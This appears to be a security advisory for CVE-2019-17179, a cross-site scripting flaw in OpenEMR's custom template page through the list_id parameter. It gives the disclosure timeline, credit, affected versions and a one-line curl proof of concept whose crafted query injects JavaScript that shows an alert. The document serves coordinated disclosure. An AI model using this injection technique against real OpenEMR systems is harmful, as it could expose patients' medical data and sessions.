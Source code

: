 # CVE-2019-17179
XSS in `library/custom_template/add_template.php` in
OpenEMR before 5.0.2.1 allows a malicious user to
execute code in the context of a victim's browser via a crafted `list_id` query parameter.

## Timeline
* Discovered:* October 1, 2019
* Pull Request Issued:* October 1, 2019
* Reported:* October 2, 2019
* OpenEMR merged pull Request:* October 2, 2019
* CVE ID issued:* October 4,  2019
* OpenEMR Release:* October 10, 2019 (5.0.2.1)

## Credit
Will Porter, Lodestone Security (https://www.lodestonesecurity.com/)

## Version Details
Fixed-In Version: 5.0.2.1

Affected Versions:
* 4.1.0
* 4.1.1
* 4.1.2
* 4.1.2.3
* 4.1.2.6
* 4.1.2.7
* 4.2.0
* 4.2.1
* 4.2.2
* 5.0.0
* 5.0.0.5
* 5.0.0.6
* 5.0.1
* 5.0.1.1
* 5.0.1.2
* 5.0.1.3
* 5.0.1.4
* 5.0.1.5
* 5.0.1.6
* 5.0.1.7
* 5.0.2

## POC Exploit
Assuming OpenEMR is running on `localhost`
```
curl "http://localhost/openemr/library/custom_template/add_template.php?list_id=1}});}}};alert(%27xss%27);function%20derp(){if%20(true){if(true){%20$.ajax({type:%22POST%22,data:{tempateid:%201"
```
